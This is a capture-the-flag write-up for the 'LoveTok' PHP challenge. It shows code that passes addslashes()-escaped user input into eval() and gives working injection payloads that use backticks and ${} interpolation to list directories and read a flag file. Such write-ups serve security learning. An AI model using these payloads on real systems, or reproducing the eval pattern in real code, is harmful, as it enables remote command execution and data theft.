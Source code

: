 # LoveTok
![Screenshot from 2021-08-15 15-10-24](https://user-images.githubusercontent.com/87865134/129471709-b0376ea8-bf4d-4379-a679-bac6403f1d85.png)

## - Download source code and analysis
- Use **MVC**
- Have:
  - Router:
  ```php
    $router = new Router();
    $router->new('GET', '/', 'TimeController@index');
  ```
  - Controller:
  ```php
    class TimeController
    {
        public function index($router)
        {
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }
  ```
  - Model: 
  ```php
    class TimeModel
    {
        public function __construct($format)
        {
            $this->format = addslashes($format);
            echo($this->format . '\n');

            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
  ```
- `TimeModel` use `addslashes()` function to escape `$format` which is data of `$_GET('format')` and put it in `eval()` function => it it a vulnerability

## - Exploit: 
- `addslashes()` function don't escape characters: `$`, `{`, `}`, ``` ` ``` => can bypass use [Variable parsing](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.simple) and [Execution Operators](https://www.php.net/manual/en/language.operators.execution.php)

### 1. List files on directory
- payload:
```php
?format=${print(`ls /`)}
```
![Screenshot from 2021-08-15 15-25-48](https://user-images.githubusercontent.com/87865134/129472156-cf8f1bbe-3662-4176-a7b1-1a1eec7498a8.png)

>  found file `flagDUomZ` 

### 2. Read file to get flag
- payload:
```php
?format=${print(`cat ../flagDUomZ`)}
```
![Screenshot from 2021-08-15 15-27-59](https://user-images.githubusercontent.com/87865134/129472193-a031e325-7114-4647-880a-b117d6863769.png)

## - References:
- [Variable parsing](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.simple)
- [Execution Operators](https://www.php.net/manual/en/language.operators.execution.php)
